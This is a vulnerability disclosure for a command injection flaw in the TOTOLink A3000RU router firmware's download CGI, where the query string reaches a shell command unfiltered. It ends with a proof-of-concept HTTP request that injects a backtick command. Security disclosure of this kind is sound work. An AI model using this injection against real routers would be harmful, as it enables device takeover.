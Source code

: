 # TOTOLink A3000RU V5.9c.2280_B20180512 Has an command injection vulnerability

## Overview

- **Type**: command injection vulnerability
- **Vendor**: TOTOLINK (https://www.totolink.net/)
- **Products**: WiFi Router, such as A3000RU V5.9c.2280_B20180512 
- **Firmware download address:**https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/168/ids/36.html



## Description

### 1.Product Information:

TOTOLink A3000RU V5.9c.2280_B20180512  router, the latest version of simulation overview：

![Figure 1 Update date of the latest version of the firmware](images/image-20220213001948116.png)

### 2. Vulnerability details

![image-20220213002423745](images/image-20220213002423745.png)

TOTOLink A3000RU V5.9c.2280_B20180512 was discovered to contain a command injection vulnerability in the "Main" function. This vulnerability allows attackers to execute arbitrary commands via the QUERY_STRING parameter.

![Figure 2 Local of the vulnerability](images/image-20220212024252932.png)

We can see that the os will get ` QUERY_STRING`  without filter splice to the string `echo QUERY_STRING:%s >/tmp/download` and execute it. So, If  we can control the `QUERY_STRING`, it can be command injection.

## 3. Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
GET /cgi-bin/downloadFlile.cgi?payload=`ls>../1.txt` HTTP/1.1 
Host: 192.168.111.12 
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Connection: keep-alive 
Upgrade-Insecure-Requests: 1 
Cache-Control: max-age=0
```

![Figure 3 POC attack effect](images/22.png)

![Figure 4 POC attack effect](images/33.png)

